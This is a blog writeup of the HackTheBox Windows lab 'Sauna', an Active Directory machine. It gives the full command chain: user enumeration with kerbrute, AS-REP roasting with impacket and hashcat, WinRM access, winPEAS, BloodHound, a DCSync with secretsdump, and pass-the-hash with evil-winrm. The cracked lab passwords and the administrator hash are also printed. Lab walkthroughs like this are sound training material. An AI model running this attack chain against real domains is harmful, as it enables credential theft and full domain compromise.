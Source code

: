 ```yaml
---
title: "Sauna - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - windows
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Sauna
![](https://kar0nx.github.io/assets/images/writeup/f31d5d0264fadc267e7f38a9d7729d14.png)
## Reconnaissance

IP: 10.10.11.35
## NMAP

```
nmap -T4 -p- -A 10.10.10.175
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-28 08:23 UTC
Nmap scan report for 10.10.10.175
Host is up (0.030s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-28 15:24:40Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
49717/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h59m59s
| smb2-time: 
|   date: 2025-08-28T15:25:33
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

TRACEROUTE (using port 135/tcp)
HOP RTT      ADDRESS
1   29.87 ms 10.10.14.1
2   29.93 ms 10.10.10.175

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 188.32 seconds

```

AD set I read watched Ippsec about this machine while preparing for PNPT, this is like real life pentest, so start with gathering information about company.

## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828102538.png)

contact page doesn't work 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828102710.png)

So I started enumerating users rpc and smb do not allow null session

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828102935.png)

But from /about us page I collected employees names.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828102745.png)

Then created list of possible usernames using username-anarchy.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828104105.png)

Tried to login to domain without password and nothing but I got domain name EGOTISTICAL-BANK.LOCAL (add to /etc/hosts)

```
nxc smb sauna.htb -u users.txt -p ''
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828104942.png)

Then I used kerbrute to check for valid users:

```
kerbrute userenum -d EGOTISTICAL-BANK.LOCAL --dc 10.10.10.175 users.txt
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828104752.png)

And we got fsmith that have no pre auth required and we got his hash. To get his Kerberos 5, etype 23, AS-REP hash type, simply use impacket-GetNPUsers

## Gaining Access

```
impacket-GetNPUsers -no-pass EGOTISTICAL-BANK.LOCAL/fsmith
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828105620.png)

now let's crack it with hashcat module 18200

```
hashcat hash /usr/share/wordlists/rockyou.txt
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828105751.png)

fsmith Thestrokes23
Using nxc I found shares and other users in domain

```
nxc smb 10.10.10.175 -u fsmith -p Thestrokes23 --shares
nxc smb 10.10.10.175 -u fsmith -p Thestrokes23 --users
nxc winrm 10.10.10.175 -u fsmith -p Thestrokes23
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828110018.png)

We can connect via winrm to get first flag 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828110222.png)

## Privilege Escalation

Starting with winpeas:

```
upload winPEASany.exe
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828110821.png)

We found autologon credentials svc_loanmanager:  Moneymakestheworldgoround!
Remember! white enumerating users we found svc_loanmgr not svc_loanmanager! as default

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828111000.png)

let's enumerate AD via bloodhound

```
bloodhound-python -d EGOTISTICAL-BANK.LOCAL -u fsmith -p Thestrokes23 -ns 10.10.10.175 -c all
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828111537.png)

In bloodhound we found juicy information. 
So svc_loanmgr have GetChangesAll (dcsync attack) so let's use secretsdump to dump administrator hash and then we will use pass the hash attack via evil-winrm

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828112000.png)

```
impacket-secretsdump EGOTISTICAL-BANK.LOCAL/'svc_loanmgr':'Moneymakestheworldgoround!'@10.10.10.175
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828112349.png)

Now connect via evil-winrm and grab root flag

```
evil-winrm -i 10.10.10.175 -u Administrator -H 823452073d75b9d1cf70ebdf86c7f98e
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828112609.png)